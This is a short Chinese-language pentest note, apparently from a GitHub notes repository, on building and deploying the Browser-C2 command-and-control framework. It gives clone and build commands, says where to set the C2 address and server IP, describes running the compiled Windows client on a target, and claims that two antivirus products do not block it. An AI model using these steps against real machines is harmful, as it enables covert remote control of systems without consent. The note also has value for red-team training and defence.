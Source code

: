 	360全套+火绒没有拦截
	缺点:会有黑框，并且打开chrome浏览器，功能限制
	https://github.com/0x09AL/Browser-C2
	>go get -u github.com/gorilla/mux
	>go get -u github.com/chzyer/readline
	>git clone https://github.com/0x09AL/Browser-C2.git
	/Browser-C2/agent/agent.go修改C2地址
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/264.png)

	修改chrome的位置
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/265.png)

	编译客户端
	>CGO_ENABLED=1 GOARCH= GOOS=windows go build
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/266.png)

	 /Browser-C2/static/jquery.js修改控制服务器IP
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/267.png)
	
	转到主目录编译服务器端
	>go build
	靶机执行生成好的客户端
	攻击机监听
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/268.png)

	此框架与靶机之间通信未加密，功能有限，可与msf、cs、poshc2、empire等框架建立联系。